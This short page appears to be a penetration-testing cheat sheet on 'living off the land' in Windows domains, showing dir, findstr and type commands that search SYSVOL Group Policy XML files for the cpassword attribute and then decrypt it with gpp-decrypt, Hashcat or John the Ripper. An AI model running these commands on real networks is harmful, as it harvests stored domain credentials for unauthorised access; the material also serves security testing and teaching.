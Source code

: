 # Living off the Land

Use the `dir` command to find the XML file.

```
C:\> dir /s Groups.xml

C:\> findstr /s cpassword %LOGONSERVER%\sysvol\*.xml
```

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

```
C:\> type C:\path\to\GPP_file.xml
```